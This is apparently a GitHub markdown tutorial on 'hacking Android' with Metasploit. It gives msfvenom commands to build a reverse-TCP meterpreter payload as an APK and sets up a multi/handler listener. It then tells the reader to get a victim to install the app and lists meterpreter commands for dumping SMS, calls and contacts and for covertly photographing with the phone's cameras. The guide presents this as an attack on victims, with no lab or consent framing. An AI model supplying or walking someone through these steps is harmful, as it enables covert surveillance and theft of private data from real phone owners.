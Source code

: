 after [Installing Metasploit](https://github.com/Muhammad-Mirab/Peneterator-Panter/blob/master/Insatlling%20Metasploit.md) now you are able to hack some devices like Android,Windows etc. and today we're going to show you how can you Hack Android

so at the first we need root permission then we have to build a payload for android!

`msfvenom -p android/meterpreter/reverse_tcp LHOST=<your ip address> LPORT=4444 R > <the name that you wanna choose for your application>.apk`

![payload for android](https://cdn1.imggmi.com/uploads/2019/10/28/0cd4ae12e138046ae9ceac05f553381e-full.png)

you can find your ip address by executing `ifconfig`:

![ifconfig](https://cdn1.imggmi.com/uploads/2019/10/28/dd2c5976eb3908daf26c3418ab1063d0-full.png)

then enter measploit by executing `msfconsole`.


![Msfconsole](https://cdn1.imggmi.com/uploads/2019/10/28/f65c76f156b3e0c9281ee8ce31fe5404-full.png)

then `use exploit/multi/handler` will change our dir to exploit(multi/handler):

![use exploit....](https://cdn1.imggmi.com/uploads/2019/10/28/7cd5f242675af9b4489ceb007e522516-full.png)

after that you have to set your LHOST and LPORT those are specified when we were trying to make an .apk payload.

LHOST is your ip address and LPORT is 4444.you can make it by `set LHOST <your IP>` and `set LPORT 4444`

![SET](https://cdn1.imggmi.com/uploads/2019/10/28/ad786a92f00b1d511a3da1a99fd0a63c-full.png)

then we have to set our payload by `set payload android/meterpreter/reverse_tcp`

![set payload](https://cdn1.imggmi.com/uploads/2019/10/28/05a5525e2835ad7416f1d6265655b70c-full.png)

so, now the victim has to instsall our payload apk and i'll explain how can you inject your payload in a real application and after that you have to execute `exploit` command.

![exploit](https://cdn1.imggmi.com/uploads/2019/11/2/c43af926d99e1baa095156707dc3aae8-full.png)

now when victim open the payload(Application) you have to see sth like this:

![meterpreter](https://cdn1.imggmi.com/uploads/2019/11/2/3f2a78bd9dd6c9625c8a2c07e45b714c-full.png)

the meterpreter is now open so now we can do evrything we want like: dumping sms, dumping calls, dumping contacts and etc.
let's test webcam, you can take a picture of backside camera by typing: `webcam_snap` and from second camera(depends on the phone) by typing: `webcam_snap -i 2` also there is lots of options that you can read about them by typing `help`

![help](https://cdn1.imggmi.com/uploads/2019/11/2/0519ab98d62441d5c84a739beee1bb0b-full.png)
